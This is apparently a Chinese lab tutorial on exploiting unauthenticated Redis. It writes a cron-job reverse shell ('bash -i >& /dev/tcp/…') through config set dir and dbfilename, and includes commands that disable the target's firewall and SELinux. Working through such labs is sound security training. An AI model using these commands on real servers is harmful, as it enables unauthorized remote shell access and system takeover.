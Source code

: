   
安装redis客户端  
> 攻击机：kali  
get https://download.redis.io/releases/redis-7.0.0.tar.gz  
tar -zxf redis-7.0.0.tar.gz  
cd redis-7.0.0  
make  
cp src/redis-cli /usr/bin  
> // 测试连接  
redis-cli -h your_host -p 6379 -a "pass" --raw  
-h: 远程连接的主机  
-p: 远程连接的端口  
-a: 密码  
--raw：解决中文乱码。  
  
  
**注：测试的时候如果出现redis客户端一直连不上的情况，在靶机上执行了以下命令，客户端就可以连接上了。**  
> iptables -F  
setenforce 0  
systemctl stop firewalld.service  
> iptables -F：  
> 该命令用来清除（flush）所有现有的 iptables 防火墙规则。iptables 是 Linux 中的包过滤工具，负责管理网络流量的过滤和路由。执行这个命令后，所有已设置的防火墙规则都会被清空，网络流量将不再受到任何过滤。  
setenforce 0：  
> 这个命令用于设置 SELinux（Security-Enhanced Linux）模式为宽松模式（Permissive）。在 SELinux 的宽松模式下，SELinux 仍然会记录违规事件，但不会阻止或限制任何操作。相比之下，如果设置为强制模式（setenforce 1），SELinux 会严格执行安全策略，拒绝所有不符合规则的操作。  
systemctl stop firewalld.service：  
> 该命令用于停止 firewalld 服务。firewalld 是一个基于区域的防火墙管理工具，提供了一种更灵活和动态的防火墙管理方式。执行该命令后，firewalld 防火墙会被停止，从而停止所有通过 firewalld 管理的防火墙规则。  
  
### 如果环境有问题可以自行百度或者直接从资产里拿国外的直接进行测试即可。  
## 未授权利用计划任务反弹shell  
  
**漏洞原理**  
  
利用Redis未授权漏洞，可以通过写入文件到系统计划任务目录 **/var/spool/cron/crontabs**  
下来执行；(/crontabskali系统下的计划任务文件夹。）  
  
**漏洞复现**  
  
在kali上建立起nc监听。  
> nv -lvvp 2333  
  
  
之后使用  
> redis-cli -h 192.168.138.128 # 未授权访问redis服务  
>   
> 192.168.136.169:6379> set xxx "\n\n * * * * * bash -i >& /dev/tcp/192.168.136.128/2333 0>&1 \n\n"  
OK # /添加名为xxx的key，值为后面反弹shell的语句,5个星号代表每分钟执行一次，其中的\n同样是为了换行，避免crontab的语法错误。这里你也可以去不加\n，去看看乱码，踩个坑才能印象深刻  
192.168.136.169:6379> config set dir /var/spool/cron/  
OK # 设置路径  
192.168.136.169:6379> config set dbfilename root  
OK # 设置文件名  
192.168.136.169:6379> save  
OK # 保存key值到文件中  
192.168.136.169:6379>  
>   
> 之后过一会  
>   
> ──(root㉿kali)-[~/桌面]  
└─# nc -lvvp 2333  
listening on [any] 2333 ...  
192.168.136.169: inverse host lookup failed: Unknown host  
connect to [192.168.136.128] from (UNKNOWN) [192.168.136.169] 52438  
bash: 此 shell 中无任务控制  